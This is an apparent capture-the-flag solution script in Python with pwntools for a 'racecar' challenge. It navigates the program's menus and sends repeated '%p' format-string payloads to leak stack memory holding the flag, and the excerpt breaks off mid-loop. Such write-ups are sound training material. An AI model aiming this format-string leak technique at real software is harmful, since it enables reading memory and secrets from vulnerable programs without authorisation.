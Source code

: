 ```python
	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = ""
			port = 0

			s = remote(host, port)

		# insert name
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# insert nickname
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# first selection to choose the car
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# second selection to choose which car to use
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# third selection to choose "highway battle"
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"1")

		# abuse the format string vulnerability by sending "%p"
		print(s.recvuntil(b"> ").decode())
		log.info(f"Sending `%{count}$p`".encode())
		s.sendline(f"%{count}$p".encode())

		# receive the line before the quote
		print(s.recvline().decode())

		# receive the quote line
		print(s.recvline().decode())

		result = s.recvline().decode()
		print(f"result = {result}")

		# check if the hex parts is inside the flag format
		# Local: flag{.*}
		# Remote: HTB{.*}
		if prefix_flag_format in result:
			is_within_flag_format = True
		elif suffix_flag_format in result:
			suffix_is_found = True

		# if the address is within the flag format,
		# it will be appended to the flags variable
```